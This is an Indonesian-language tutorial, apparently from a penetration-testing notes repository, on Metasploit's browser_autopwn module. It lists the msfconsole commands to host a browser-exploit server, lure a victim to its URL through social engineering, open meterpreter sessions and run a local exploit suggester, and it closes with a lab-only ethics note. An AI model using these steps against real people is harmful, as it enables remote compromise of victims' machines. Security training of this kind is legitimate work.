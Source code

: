 # Eksploitasi Otomatis dengan AutoPwn 

## A. Apa itu AutoPwn?

AutoPwn adalah fitur dari Metasploit yang secara otomatis memuat berbagai eksploit dan menyerang target berdasarkan kerentanannya, terutama melalui browser (client-side attack).

Modul terkait:

```
auxiliary/server/browser_autopwn
```

> Fitur ini sudah deprecated dalam versi baru, tetapi konsepnya masih digunakan dalam serangan berbasis exploit suggestion + exploit chaining.

Prasyarat:
- Kali Linux dengan Metasploit terinstal.
- Browser korban (misalnya `Windows 7` + `IE`, `Firefox` versi lama).
- Jaringan lokal/lab untuk pengujian.
- Pengetahuan dasar Metasploit.

### 1. Setup AutoPwn

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

2. Gunakan modul AutoPwn:

   ```
   use auxiliary/server/browser_autopwn
   ```

3. Atur parameter penting:

   ```
   set LHOST 192.168.1.10
   set SRVHOST 192.168.1.10
   set SRVPORT 80
   set SSL false
   set verbose true
   ```

   Keterangan:
   - `LHOST`: IP Attacker
   - `SRVHOST`:  IP hosting payload
   - `SRVPORT`: Port hosting payload
   - `SSL`: Non-SSL (HTTP)
   - `VERBOSE`: Menampilkan output lebih detail (debugging)
  
4. Jalankan:

   ```
   run
   ```

   Metasploit akan:
   - Menjalankan web server dengan banyak exploit browser.
   - Membuat payload otomatis.
   - Menunggu korban mengakses URL (via social `engineering`, `email`, `dsb`).
   - Menyuntikkan exploit dan mencoba men-deploy payload.
  
### 2. Teknik Penyebaran

   Kirim URL ke korban: http://192.168.1.100/
   - Jika browser rentan (`IE6`, `Firefox 10`, `dll`), exploit akan dikirim.
   - Otomatis membuka sesi meterpreter.

### 3. Hasil Eksploitasi

   Cek sesi:

   ```
   sessions -l
   ```

Interaksi:

   ```
   sessions -i 1
   ```

### 4. Alternatif: Auto Exploitation dengan Exploit Suggestion

   Langkah:

   ```
   use post/multi/recon/local_exploit_suggester
   set SESSION 1
   run
   ```
 
   Kemudian gunakan exploit yang disarankan:

   ```
   use exploit/linux/local/xxx
   set SESSION 1
   run
   ```

## Catatan Etis dan Legal
- AutoPwn hanya boleh digunakan dalam lab atau lingkungan izin.
- Jangan digunakan terhadap sistem publik atau tanpa persetujuan.
- Risiko legal dan etika sangat tinggi jika digunakan sembarangan.

